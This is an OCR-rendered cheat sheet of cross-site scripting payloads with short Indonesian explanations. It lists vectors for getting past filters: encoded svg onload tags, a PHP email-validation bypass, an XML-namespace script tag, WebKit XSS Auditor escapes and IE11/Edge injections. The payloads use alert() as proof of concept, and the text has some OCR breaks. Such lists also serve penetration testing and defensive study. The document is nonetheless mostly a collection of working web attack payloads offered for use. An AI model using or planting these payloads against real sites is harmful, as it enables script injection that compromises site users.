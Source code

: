        %u003Csvg onload=alert(1)>
    
       %u3008svg onload=alert(2)>
    
       %uFF1Csvg onload=alert(3)>

> PHP Email Validation Bypass

Gunakan untuk memintas flag FILTER_VALIDATE_EMAIL flag dari fungsi filter_var () PHP.

       "><svg/onload=alert(1)>"@x.y

> DOM Insertion via Server Side Reflection

Gunakan ketika input direfleksikan ke sumber dan tidak bisa dijalankan dengan mencerminkan tetapi dengan menjadi

dimasukkan ke dalam DOM. Menghindari pemfilteran browser dan WAFs.

       \\74svg o\\156load\\75alert\\501\\51\\76

> XML-Based Vector for Bypass

Gunakan untuk memintas penyaringan browser dan WAFs di halaman XML. Tambahkan "->" ke payload jika input

mendarat di bagian komentar atau "\]\]>" jika input mendarat di bagian "CDATA".

       <_:script xmlns:_="[http://www.w3.org/1999/xhtml](http://www.w3.org/1999/xhtml "http://www.w3.org/1999/xhtml")">alert(1)</_:script>

> Javascript Context - Tag Injection (Webkit Bypass)

Gunakan untuk memotong Auditor Webkit dalam konteks javascript dengan keluar dari blok skrip.

       </script><svg><script>alert(1)//
    
       </script><script>'%0B'-alert(1)//

> Double Reflection With Single Input (Webkit Bypass)

Gunakan untuk memintas Auditor Webkit dalam skenario refleksi ganda untuk konteks apa pun.

       "\`-alert(1)</script><script>\`

> Vector for PHP Arrays Dump (Webkit Bypass)

Gunakan ketika refleksi berasal dari penggunaan fungsi PHP var_dump () dan print_r (). "P" adalah

parameter rentan.

       ?p\[<script>\`\]=\`/alert(1)</script>

> Javascript Context - Code Injection (IE11/Edge Bypass)

Gunakan untuk mem-bypass Microsoft IE11 atau Edge saat menyuntikkan ke dalam konteks javascript.

       ';onerror=alert;throw 1//

> HTML Context - Tag Injection (IE11/Edge XSS Bypass)

Gunakan untuk mem-bypass filter asli mereka dalam skenario multi-refleksi.

       "'>confirm&lpar;1)</Script><Svg><Script/1='

